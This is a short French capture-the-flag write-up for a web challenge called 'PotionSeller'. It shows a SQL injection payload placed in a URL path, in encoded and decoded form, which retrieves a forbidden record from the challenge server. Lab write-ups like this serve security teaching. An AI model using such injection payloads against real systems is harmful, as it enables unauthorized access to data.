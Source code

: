 ## PotionSeller

Ce challenge consiste à accéder à la potion 4 car tout le monde veut connaître ses secrets !

Malheureusement le marchand de potion nous l'interdit :(. Heureusement qu'il existe les injections sql pour palier le problème !


Pour ce faire nous allons passer par l'url afin de questionner le serveur.
 ```URL
 https://potionseller.secu-web.blackfoot.dev/potions/1%20OR%20id%20%3E%203%20AND%20id%20%3C%205%20order%20by%20id%20desc
 ```
 after url decode
 
 ```URL
 https://potionseller.secu-web.blackfoot.dev/potions/1 OR id > 3 AND id < 5 order by id desc
 ```
